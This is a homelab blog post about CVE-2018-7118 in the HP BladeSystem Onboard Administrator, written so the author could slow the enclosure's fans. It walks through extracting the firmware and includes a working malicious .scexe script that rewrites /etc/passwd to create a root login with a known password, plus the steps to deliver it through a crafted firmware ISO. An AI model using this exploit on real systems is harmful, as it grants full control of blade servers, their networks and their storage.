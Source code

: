 +++
title = "CVE-2018-7118 - Rooting your HP BladeSystem"
date = 2021-09-15

[taxonomies]
tags = ["bladesystem", "homelab", "security"]
+++

## Because it's [far too loud](https://youtu.be/SR2gjyeXbow?t=69)
#### (What, you had a nefarious reason to hack it? I just wanted to sleep.)

The HP BladeSystem is a now fairly dated blade enclosure.  
I used to run one in my bedroom - someone told me I should try keeping the cloud closer to home - and sleeping wearing ear defenders gets old after a while.  
What to do? There's no way to configure the fan curve and they can hit 18,000 RPM.


## Enter [CVE-2018-7118](https://nvd.nist.gov/vuln/detail/CVE-2018-7118)
### Let's look at the firmware

The firmware for the bladesystem enclosure manager is available online. This vulnerability requires OA firmware <= 4.80.

```bash
$ sha256sum hpoa480.bin
12809d4f96198b8c23480edf4b31c756dd58260b5d319d9becd7eb5a6f9b854f *hpoa480.bin
$ binwalk hpoa480.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
213           0xD5            uImage header, header size: 64 bytes, header CRC: 0x559534C9, created: 2017-12-13 11:17:17, image size: 1522926 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x3A7352C0, OS: Linux, CPU: PowerPC, image type: OS Kernel Image, compression type: gzip, image name: "Linux-2.6.17.9-udog"
277           0x115           gzip compressed data, maximum compression, from Unix, last modified: 2017-12-13 11:17:16
1523203       0x173E03        uImage header, header size: 64 bytes, header CRC: 0x9F09FD6A, created: 2017-12-13 11:10:30, image size: 3692025 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x80788EF4, OS: Linux, CPU: PowerPC, image type: RAMDisk Image, compression type: gzip, image name: ""initrd 171213-1007 build""
1523267       0x173E43        gzip compressed data, maximum compression, has original file name: "udog-initrd", from Unix, last modified: 2017-12-13 11:10:27
5215292       0x4F943C        Squashfs filesystem, big endian, version 2.1, size: 7447206 bytes, 2124 inodes, blocksize: 65536 bytes, created: 2017-12-13 11:10:26
12665972      0xC14474        uImage header, header size: 64 bytes, header CRC: 0x9ECEFB67, created: 2017-12-13 11:24:53, image size: 1532777 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x3555C9E5, OS: Linux, CPU: PowerPC, image type: OS Kernel Image, compression type: gzip, image name: "Linux-2.6.17.9-udog-440EPX"
12666036      0xC144B4        gzip compressed data, maximum compression, from Unix, last modified: 2017-12-13 11:24:53
14198813      0xD8A81D        Squashfs filesystem, big endian, version 2.1, size: 1111378 bytes, 47 inodes, blocksize: 65536 bytes, created: 2017-12-13 11:10:27
15313456      0xE9AA30        PEM certificate
15315387      0xE9B1BB        PEM certificate
15317046      0xE9B836        PEM certificate
``` 

Use `binwalk -e` on the firmware image to extract the multiple squashfs filesystems' contents.

I already have an idea of where I want to look: I know the firmware upgrade process for the blades involves loading an SPP iso on the onboard administrator and unpacking the firmware from it.  
I had a guess there might be some sort of unsafe extraction along the lines of [zip slip](https://snyk.io/research/zip-slip-vulnerability) - but for an RPM or HP SCEXE format instead - and looked for the code which handles this.

The majority of HP's custom binaries and scripts for the OA can be found under the sbin folder in the first squashfs `squashfs-root\sbin`.
`fw_mgmtd` is responsible for running firmware updates, and runs as root. To try to find more information about `scexe` unpacking, let's `grep` for that.

```bash
$ strings _hpoa480.bin.extracted/squashfs-root/sbin/fw_mgmtd | grep -i scexe
/ramdisk/unpack-scexe.lock
/usr/sbin/unpack-scexe %s >/dev/null 2>&1
Successfully unpacked HPE SCEXE SmartComponents.
HPE SCEXE Components are not found, Searching for RPM Components.
Unable to locate and/or unpack SCEXE/RPM HPE SmartComponents. OA/iLO will not be updated.
```

Looks like it calls `unpack-scexe`, which is a script. Nice! No need to disassemble to work out what this is doing.

```bash
dbg_echo ">>>>>>>>>>Unpacking $2:"
sh $2.scexe --unpack=$2  
rc=$?
rm $2.scexe
if [ $rc -eq 0 ]; then
    dbg_echo "Successfully unpacked $2"
    return $rc
else
    dbg_echo ">>>> Failed to unpack $2.scexe"
    return $rc
fi
```

### The exploit steps

Oh dear. It runs the supplied .scexe file as a script. Let's try replacing the HP supplied update with a shell script of our own choosing.  
The Linux install on this is extremely stripped down, no `passwd` command here.

```bash
#!/bin/sh
#!scexe

_SKIP=347
_INTERFACE_VERSION=scexe-interface-1.03-22
_INSTALLER=flash_ilo4

# the udog user already exists on this system with uid 0 before we touch anything
# the hash here is for the password compaq
# 
echo "udog:pD.WvCQWQJ4Kc:0:0:0,,:/:/bin/sh" > /etc/passwd.new
grep -v -e '^udog:' /etc/passwd >> /etc/passwd.new
mv /etc/passwd.new /etc/passwd
chmod 666 /etc/passwd
chown 1:1 /etc/passwd
exit 1
```

Replace/add it at this path `hp/swpackages/root.scexe`. Put the new SPP ISO somewhere accessible by the OA, either on an HTTP(no S) server or on an ext2 partition on a flash drive plugged into it.  
Use the web UI to start firmware management.  
Wait for it to fail the iLO upgrade step with `Unable to locate and/or unpack SCEXE/RPM HPE SmartComponents. OA/iLO will not be updated.`  
SSH in with username `udog` password `compaq`.

![](and-we're-in.png "Screenshot of an active root shell running on the BladeSystem c3000 OA")



## Now to finally slow down those fans

Patching the thermal management code to use a different fan curve is probably the more correct way of fixing this, but that's a more involved process for another post if I ever run a BladeSystem again.
A simple fix which sets the fan speed every 10 seconds on a loop worked fine for me. The `fan` binary this calls is already provided by HP.

```bash
#!/usr/bin/env bash
# slowfan.sh

SPD=40
if [ $# -eq 1 ]; then
	SPD=$1
fi

while true; do
	sleep 10
	# i'm not being paid enough to put a loop here
	fan 1 $SPD
	fan 2 $SPD
	fan 3 $SPD
	fan 4 $SPD
	fan 5 $SPD
	fan 6 $SPD
done
```

A little crude, but functional.

## Responsible Disclosure, HPE, and the Onboard Administrator as a juicy target

HPE don't operate a public bug bounty program, and provided no compensation for reporting this issue.
It is likely there are other security issues with the Onboard Administrator - the very first thing I looked at as a plausible escalation path worked, which doesn't bode well - but don't have much incentive to look into them as I got what I needed and can control the fan speed.
Keep any Onboard Administrator safely isolated from anything less trusted than it as getting root on it means full access to: 

* The blades' iLO
* Whatever is running on those blades
* Any network physically connected to the VirtualConnect switches
* Any storage connected to other types of interconnect modules
* The potential to tamper with the firmware on any inserted device without any audit trail

The particular vulnerability here requires someone to already have access to an account with permissions to trigger firmware upgrades, but it is very plausible that a path starting with anonymous access to here exists.
